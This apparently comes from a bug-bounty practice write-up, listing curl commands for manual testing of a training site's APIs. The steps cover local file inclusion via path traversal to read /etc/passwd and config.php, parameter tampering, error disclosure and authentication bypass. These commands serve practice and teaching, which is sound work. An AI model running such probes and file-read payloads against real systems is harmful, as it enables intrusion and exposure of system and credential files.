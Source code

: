 #### Manual Testing Steps
1. **API Endpoint Accessibility Testing:**
   ```bash
   # Test direct access to API endpoints
   curl -v "https://www.bugbountytraining.com/fastfoodhackings/api/invites.php"
   curl -v "https://www.bugbountytraining.com/fastfoodhackings/api/book.php"
   curl -v "https://www.bugbountytraining.com/fastfoodhackings/api/loader.php"
   ```

2. **Local File Inclusion Testing (loader.php):**
   ```bash
   # Test LFI on loader.php endpoint
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/loader.php?f=/etc/passwd"
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/loader.php?f=../../../etc/passwd"
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/loader.php?f=/reviews.php"
   
   # Test different file extensions
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/loader.php?f=config.php"
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/loader.php?f=index.php"
   ```

3. **Parameter Manipulation Testing:**
   ```bash
   # Test booking API with different parameters
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/book.php?battleofthehackers=yes"
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/book.php?battleofthehackers=true"
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/book.php?battleofthehackers=1"
   
   # Test invites API with different methods
   curl -X POST "https://www.bugbountytraining.com/fastfoodhackings/api/invites.php"
   curl -X GET "https://www.bugbountytraining.com/fastfoodhackings/api/invites.php?user=test"
   ```

4. **Information Disclosure Testing:**
   ```bash
   # Test for error message disclosure
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/invites.php?id=999999"
   curl "https://www.bugbountytraining.com/fastfoodhackings/api/book.php?invalid_param=test"
   
   # Test with malformed requests
   curl -H "Content-Type: application/json" -d '{"invalid":"json"}' "https://www.bugbountytraining.com/fastfoodhackings/api/book.php"
   ```

5. **Authentication Bypass Testing:**
   ```bash
   # Test without authentication
   curl -H "Authorization: Bearer invalid_token" "https://www.bugbountytraining.com/fastfoodhackings/api/invites.php"
   
   # Test with different HTTP methods
   curl -X DELETE "https://www.bugbountytraining.com/fastfoodhackings/api/book.php"
   curl -X PUT "https://www.bugbountytraining.com/fastfoodhackings/api/invites.php"
   ```
